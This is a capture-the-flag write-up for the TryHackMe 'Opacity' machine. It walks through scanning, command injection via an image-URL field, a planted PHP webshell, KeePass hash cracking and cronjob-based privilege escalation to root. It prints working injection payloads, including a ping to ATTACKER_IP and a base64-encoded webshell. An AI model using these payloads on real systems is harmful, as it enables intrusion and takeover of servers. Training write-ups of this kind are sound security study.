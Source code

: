 
# TryHackme - Opacity

So let's start with the usual portscan first of all.

`nmap -sS -sV -sC <IP>`

![Screenshot0](./screenshots/0.png)

We see SSH, a web server and a samba service open.

I started with the enumeration of the web server manually and with various tools.

![Screenshot1](./screenshots/1.png)

First of all, we see a login panel where I attempted some SQL injection.

I ran __FFUF__ while fuzzing webroot and saw the following interesting directory.

![Screenshot2](./screenshots/2.png)

Then let's see what's behind it.

![Screenshot3](./screenshots/3.png)

As we can see, the service requests an image from an external URL.

I first checked if this really worked by using a `python3 -m http.server` and uploading an image from my Attacker machine to the cloud service.

So far so good everything works, but now to the exploit attempts.

First I tried to find a `SSRF` vulnerability.

Then I set up a netcat listerner and gave the service my URL.

At the netcat listener I saw the __User-Agent__ header.

![Screenshot4](./screenshots/4.png)

Now we know that the service probably gets our images via `wget`.

This caused me to look more for a __RCE__ vulnerability.

After a few tries I quickly found a __POC__ which confirms a __RCE vulnerability__.

Using `tcpdump -i tun0 icmp` I listened for incoming ICMP packets on my attacker machine.

And with the payload `;ping -c 3 <ATTACKER_IP>;.png` appended to the URL I pinged my machine successfully 3 times

![Screenshot5](./screenshots/5.png)

![Screenshot6](./screenshots/6.png)

Now I placed a simple webshell from which I later established a reverse shell with the following payload

 `;echo "PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllOyB9Pz4=" | base64 -d >> rev.php;.png`

Through the webshell established a more convenient reverse shell and was `www-data`.

While enumerating the system I found an interesting file under `/opt` which I downloaded to my attacker machine.

![Screenshot7](./screenshots/7.png)

With `keepass2john` and `john` I cracked the password of the keepass database and could open it and got the password from the `sysadmin` user.

![Screenshot8](./screenshots/8.png)

![Screenshot9](./screenshots/9.png)

![Screenshot10](./screenshots/10.png)

I logged in via SSH and got the first flag.

![Screenshot11](./screenshots/11.png)

## sysadmin --> root

Now to the privilege escalation.

I ran the tool `pspy` and saw that there must be a cronjob active under `root` user.

![Screenshot12](./screenshots/12.png)

It runs a `php` script which is located in our home directory.

![Screenshot13](./screenshots/13.png)

The script automatically makes a backup.

Furthermore we see another inclusion in the `require_once` function.

The file `backup.inc.php` was not writable for the time being, so I copied it to `/tmp`, deleted it and moved the copy with write permissions back to the original directory.

![Screenshot14](./screenshots/14.png)

I placed a simple reverse-shell code in the file, waited and got a session on my netcat listener as root.

![Screenshot15](./screenshots/15.png)
